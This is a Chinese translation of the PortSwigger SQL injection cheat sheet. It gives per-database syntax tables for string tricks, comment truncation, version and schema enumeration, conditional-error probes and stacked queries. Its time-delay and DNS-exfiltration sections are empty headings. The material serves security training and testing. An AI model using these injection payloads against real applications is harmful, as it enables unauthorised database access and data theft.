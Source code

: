 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/cheat-sheet'
---
```


# SQL注入备忘单

这个SQL注入备忘单包含了一些有用的语法例子，您可以用来执行执行SQL注入攻击时经常出现的各种任务。

### 字符串连接

你可以将多个字符串连接在一起组成一个字符串。

| DataBases | Statements |
| :--- | :--- |
| **Oracle** | `'foo'||'bar'` |
| **Microsoft** | `'foo'+'bar'` |
| **PostgreSQL** | `'foo'||'bar'` |
| **MySQL** | `'foo' 'bar'` \[Note the space between the two strings\] `CONCAT('foo','bar')` |

### 子字符串

您可以从指定的偏移量中提取字符串的部分长度。请注意，偏移量的索引是基于1的。以下每个表达式都会返回字符串 ba。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SUBSTR('foobar', 4, 2)` |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL | `SUBSTRING('foobar', 4, 2)` |

### 注释

您可以使用注释来截断查询，并删除输入之后的原始查询部分。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `--comment` |
| Microsoft | `--comment` `/*comment*/` |
| PostgreSQL | `--comment` `/*comment*/` |
| MySQL | `#comment` `-- comment` \[Note the space after the double dash\] `/*comment*/` |

### 数据库版本

你可以查询数据库以确定其类型和版本。这些信息在制定更复杂的攻击时很有用。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT banner FROM v$version SELECT version FROM v$instance` |
| Microsoft | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| MySQL | `SELECT @@version` |

### 数据库内容

您可以列出数据库中存在的表，以及这些表包含的列。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

### 条件错误

您可以测试单个布尔条件，如果条件为真，则触发数据库错误。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### 批处理（或堆叠）查询

您可以使用批处理查询来连续执行多个查询。请注意，虽然后续查询被执行，但结果不会返回给应用程序。因此，这种技术主要用于与盲目漏洞有关的情况，在这种情况下，您可以使用第二个查询来触发一个 DNS 查找、条件错误或时间延迟。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `Does not support batched queries.` |
| Microsoft | `QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL | `QUERY-1-HERE; QUERY-2-HERE` |

> Note
>
> 对于MySQL，批量查询通常不能用于SQL注入。然而，如果目标应用程序使用某些PHP或Python API与MySQL数据库通信，这偶尔是可能的。

### 时间延迟





### 有条件的时间延迟





### DNS查找





### 带数据渗出的DNS查找











